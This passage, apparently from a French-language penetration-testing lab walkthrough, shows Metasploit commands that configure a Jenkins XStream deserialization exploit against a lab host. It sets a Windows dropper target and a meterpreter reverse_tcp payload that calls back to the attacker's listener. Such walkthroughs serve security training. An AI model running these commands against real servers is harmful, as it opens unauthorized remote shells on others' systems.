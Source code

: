 ```bash
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)
```

__/!\\ Attention : __ On constate que la cible par défaut de notre exploit est `Unix` (cf Exploit target).

On configure correctement toutes les options, dont la cilbe `windows dropper` et un payload `windows/x64/meterpreter/reverse_tcp` pour utiliser l'expolit.

Options de l'exploit :
```bash
msf6 exploit(multi/http/jenkins_xstream_deserialize) > setg RHOSTS 192.168.56.7
RHOSTS => 192.168.56.7
msf6 exploit(multi/http/jenkins_xstream_deserialize) > set RPORT 8484
RPORT => 8484
msf6 exploit(multi/http/jenkins_xstream_deserialize) > set SRVHOST 192.168.56.5
SRVHOST => 192.168.56.5
msf6 exploit(multi/http/jenkins_xstream_deserialize) > set SRVPORT 7080
SRVPORT => 7080
```

Configurer la cible :
```bash
msf6 exploit(multi/http/jenkins_xstream_deserialize) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Python (In-Memory)
   2   PowerShell (In-Memory)
   3   Windows (CMD)
   4   Linux (Dropper)
   5   Windows (Dropper)


msf6 exploit(multi/http/jenkins_xstream_deserialize) > set target 5
target => 5
```

Configurer le payload:
```
msf6 exploit(multi/http/jenkins_xstream_deserialize) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/jenkins_xstream_deserialize) > set LHOST 192.168.56.5
LHOST => 192.168.56.5

msf6 exploit(multi/http/jenkins_xstream_deserialize) > set LPORT 6666
LPORT => 6666
```
